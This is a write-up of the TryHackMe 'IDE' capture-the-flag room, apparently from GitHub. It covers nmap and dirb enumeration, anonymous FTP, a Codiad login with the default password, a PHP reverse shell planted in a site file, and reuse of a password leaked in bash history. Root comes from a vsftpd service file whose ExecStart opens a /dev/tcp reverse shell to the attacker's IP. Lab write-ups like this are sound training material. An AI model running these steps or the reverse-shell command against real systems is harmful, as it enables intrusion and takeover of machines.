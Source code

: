 # TryHackMe - IDE

[Room link](https://tryhackme.com/room/ide)

---

## Enumeration

I use nmap for scanning the machine ports and services avalaibles.

First scan :

```bash
$ nmap -sS <target_ip>
[...]
Host is up (0.013s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

We can see we have few interesting services like ftp and http. We don't focus ssh for the moment.

Second scan : full scan :

```bash
$ sudo nmap -sS -T5 -p- <target_ip>
[...]
Not shown: 65495 closed ports, 36 filtered ports
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
62337/tcp open  unknown
```

---

### FTP

First, i try to connect to the ftp service remotly on anymous.

```bash
$ ftp <target_ip>
[...]
Name (10.10.236.174:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
```

Ok, we are connected as anonymous. Let's see what it is avalaible.

```bash
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 0        114          4096 Jun 18  2021 .
drwxr-xr-x    3 0        114          4096 Jun 18  2021 ..
drwxr-xr-x    2 0        0            4096 Jun 18  2021 ...
226 Directory send OK.
ftp> cd ...
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             151 Jun 18  2021 -
drwxr-xr-x    2 0        0            4096 Jun 18  2021 .
drwxr-xr-x    3 0        114          4096 Jun 18  2021 ..
226 Directory send OK.
ftp> get -
local: ./- remote: -
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for - (151 bytes).
226 Transfer complete.
151 bytes received in 0.00 secs (1.5653 MB/s)
ftp> 
```

We have download the file named "-". Let's see this file content.

```txt
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```

---

### HTTP 80

A web site is avalaible on the port 80. When you request http://<target_ip>/, we have a response with the apache default page. The next step it is to enumerate pages.

This website seems empty after a gobuster scan.

---

### HTTP 62337

Let's do an another web content scan, we will use dirb this time :

```bash
$ dirb http://<target_ip>/
[...]
---- Scanning URL: http://10.10.207.204:62337/ ----
==> DIRECTORY: http://10.10.207.204:62337/components/                                                                                                                             
==> DIRECTORY: http://10.10.207.204:62337/data/                                                                                                                                   
+ http://10.10.207.204:62337/favicon.ico (CODE:200|SIZE:1150)                                                                                                                     
+ http://10.10.207.204:62337/index.php (CODE:200|SIZE:5239)                                                                                                                       
==> DIRECTORY: http://10.10.207.204:62337/js/                                                                                                                                     
==> DIRECTORY: http://10.10.207.204:62337/languages/                                                                                                                             
==> DIRECTORY: http://10.10.207.204:62337/lib/                                                                                                                                   
==> DIRECTORY: http://10.10.207.204:62337/plugins/                                                                                                                               
+ http://10.10.207.204:62337/server-status (CODE:403|SIZE:281)                                                                                                                   
==> DIRECTORY: http://10.10.207.204:62337/themes/ 
```

After checked some directories, we can find an interresting information in this page : http://10.10.207.204:62337/js/system.js

```txt
/*
 *  Copyright (c) Codiad & Kent Safranski (codiad.com), distributed
 *  as-is and without warranty under the MIT License. See
 *  [root]/license.txt for more. This information must remain intact.
 */
```

We need to search the default password of Codiad, like drac said previously. In fact, he reset the john's password with the default password.

After few research the default password is ... password.

---

## Exploitation

Let's try to connect via the form on the index page with this credentials : john/password. That works !

It is possible to add a project. If we add a projet with a random name like "Test" and this path : /var/www/html/codiad we will see and we can modify some files presents on the site. Let's try to modify a file with a reverse shell. For example, we can use /languages/bg.php and replace the content with a php reverse shell. Dont't forget to replace your IP address and save. Now, we need to set a netcat listenner with this command :

```bash
$ nc -lnvp <listenning_port>
```

Now, we need to call this page /languages/bg.php.

Nice ! We get a shell on our netcat listenner.

```bash
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 10.10.124.121 55972 received!
Linux ide 4.15.0-147-generic #151-Ubuntu SMP Fri Jun 18 19:21:19 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 20:42:00 up 53 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

If we check the user drac history, we can see this following entry :

```bash
/home/drac
$ cat .bash_history
mysql -u drac -p 'Th3dRaCULa1sR3aL'
```

We can try to connect on the ssh to the target machine with this password.

```bash
Last login: Wed Aug  4 06:36:42 2021 from 192.168.0.105
drac@ide:~$ 
```

That works. We are connected as drac user.

---

## User flag

Now, we can get the user's flag at /home/drac/user.txt

---

Now, we need to privesc to the user root. 

If we check the sudo's commands of the drac user we can see this :

```bash
drac@ide:/$ sudo -l
Matching Defaults entries for drac on ide:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
```

We can modify the service like this, to set a listenner shell at the restart of the service :

```bash
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c 'exec bash -i &>/dev/tcp/10.10.6.186/1234 <&1'
```

Now reload daemons and restart the service, don't forget to set up a nc listenner on the right port.

```bash
$ systemctl daemon-reload
[...]
$ /usr/sbin/service vsftpd restart
```

Finally, if you check we check our nc listenner, we are root !

---

## Root flag

The flag root's flag is in /root/root.txt
